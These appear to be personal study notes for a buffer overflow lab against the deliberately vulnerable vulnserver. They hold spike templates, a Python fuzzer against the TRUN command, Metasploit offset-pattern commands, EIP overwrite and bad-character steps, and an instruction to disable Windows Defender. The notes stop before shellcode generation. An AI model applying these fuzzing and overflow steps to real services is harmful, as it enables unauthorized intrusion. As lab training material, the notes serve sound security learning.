




Installation
1-your victim machine is vulnserver-->it's going to allow us to write a custome exploit against it and get a reverse shell
2-we download immunity debugger--->this is going to allow us to run the program through this debugger, so when we are triggering different types of exploits we can see how it's affecting the memory and stack
-->so our goal here is to be able to write our own exploit code by the end of this
-----------------------------------------------------------------------
Anatomy of memory


-->if you properly sanitizing your buffer space then if you send a bunch of characters, A's for example, you should reach EBP and stop, now however if you have a buffer overflow attack then you actually overflow the buffer space you using and reach over the EBP into something called EIP, now EIP is where things get interesting, this is a pointer address or a return address, so we can use this address to point to directions that we instruct, now these directions are actually going to be a malicious code that gives us a reverse shell

Steps to conduct a buffer overflow
1-Spiking-->method that we use to find a vulnerable part of a program
2-Fuzzing-->it's similar to spiking, we are going to send a bunch of characters at a program and see if we can break it
3-Finding the Offset-->if we break it, we want to find out at what point we did break it
4-Overwriting the EIP-->we use that offset to overwrite the EIP
5-Finding Bad Characters-->once we have EIP controlled, we need to do a few house cleanup things, one is called finding bad characters, second:
6-Finding the right module
7-Generating Shellcode-->this malicious shellcode that will allow us to get this reversed shell, we're going to point that EIP to our malicious shellcode
8-Root!
----------------------------------------------------------------------------
Spiking
(vulnserver run on 9999)
1-make sure to turn off real time protection of windows defender
2-run vulnserver and immunity debugger as adminstrator
3-in immunity debugger-->file-->attach-->vulnserver-->click on play button
4-find you host(windows) ip address then run on kali machine(attacker)#nc -nv <host ip> 9999
HELP
-->we will focus on TRUN command, so we want to find how TRUN is vulnerable, so we're going to do Spiking which mean throw a bunch of characters at you and see if i can overflow that buffer, for Spiking we're gonna use tool called generic_send_tcp
EXIT
#generic_send_tcp
#gedit stats.spk
put in file:
s_readline();
s_string("STATS ");
s_string_variable("0");
#generic_send_tcp 192.168.1.2 9999 stats.spk 0 0
#gedit trun.spk
put in file:
s_readline();
s_string("TRUN ");
s_string_variable("0");
#generic_send_tcp 192.168.1.2 9999 turn.spk 0 0
-->ctrl+s when you find blank screen on immunity debugger, this mean there is something vulnerable here
------------------------------------------------------------------------
Fuzzing
-->after we know that turn command is vurnable we're gonna attack that command specifically
1-close immunity and vulnserver and reopen if they are still open
2-write 1.py script file:
#!/usr/bin/python
import sys, socket
from time import sleep
buffer = "A" * 100
while True:
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.1.2',9999))
s.send(('TRUN /.:/' + buffer))
s.close()
sleep(1)
buffer = buffer + "A"*100
except:
print "Fuzzing crashed at %s bytes" % str(len(buffer))
sys.exit()
-----------------------------------------------------------------------
#chmod +x 1.py
#./1.py
---------------------------------------------------------------------
Finding the Offset
-->we looking for where we overwrite the EIP because that's what we want to control
#/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
#gedit 2.py
#chmod +x 2.py
#./2.py
#/usr/share/metasploit.framework/tools/exploit/pattern_offset.rb -l 3000 -q <EIP>
-------------------------------------------------------------------
Overwriting the EIP
edit 2.py file:
remove offset and put shellcode = "A" + <number of byte offset> + "B" + 4
#./2.py
-->The EIP 42424242
--------------------------------------------------------------------
Finding Bad Characters
when we make the shell we want to find bad characters for shell code
1-google: badchars
2-edit 2.py file:
add
badchars-->and delete x00\
shellcode = "A" * <number of offset byte> + "B" * 4 + badchars
#./2.py
example for bad characters:

-------------------------------------------------------------------------------
a
shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. ...
Shellcode is commonly written in machine code
.
--------------------------------------------------------------------------------------------------
buffer overflow attacks against both legacy and newly-developed applications are still quite common. Part of the problem is due to the wide variety of ways buffer overflows can occur, and part is due to the error-prone techniques often used to prevent them.
----------------------------------------------------------------------